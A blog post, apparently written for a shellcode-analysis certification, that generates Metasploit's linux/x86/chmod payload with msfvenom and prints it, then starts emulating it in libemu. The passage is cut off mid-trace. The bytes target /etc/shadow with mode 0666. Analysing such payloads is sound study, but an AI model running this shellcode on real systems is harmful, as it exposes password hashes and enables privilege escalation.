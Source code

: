 ```yaml
---
layout: post
title: Analyzing Metasploit Shellcode
date: 2021-01-17 20:30:00
categories: posts
comments: false
en: true
---
```


#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE certification. 

The fifth assignment from the seven requires analyzing three [shellcodes](https://es.wikipedia.org/wiki/Shellcode) generated by Metasploit through GDB/Ndisasm/Libemu. 
Furthermore, it is required to report the findings during the analysis.

#### Chmod Shellcode (Shellcode #1)

The first shellcode to be analyzed will be one that supposedly chmods a file, however, it isn't really known which one or the type of privileges that are granted. Let's find 
out!

Generating the shellcode with msfvenom:

```term
root@whitecr0wz:~# msfvenom -p linux/x86/chmod -f c 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes
Final size of c file: 177 bytes
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
"\x80\x6a\x01\x58\xcd\x80";
root@whitecr0wz:~#
```

##### Libemu

Analyzing the shellcode with Libemu:

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect1$ echo -ne 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | 
../../../libemu/tools/sctest/sctest -vvv -Ss 10000 
verbose = 3
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417000
[emu 0x0x1a155f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x1a155f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x1a155f0 debug ] Flags: 
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417000
[emu 0x0x1a155f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x1a155f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x1a155f0 debug ] Flags: 
[emu 0x0x1a155f0 debug ] 99                              cwd 
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417001
[emu 0x0x1a155f0 debug ] eax=0x00000000  ecx=0x00000000  edx=0x00000000  ebx=0x00000000
[emu 0x0x1a155f0 debug ] esp=0x00416fce  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x1a155f0 debug ] Flags: 
[emu 0x0x1a155f0 debug ] 6A0F                            push byte 0xf
[emu 0x0x1a155f0 debug ] cpu state    eip=0x00417003
```
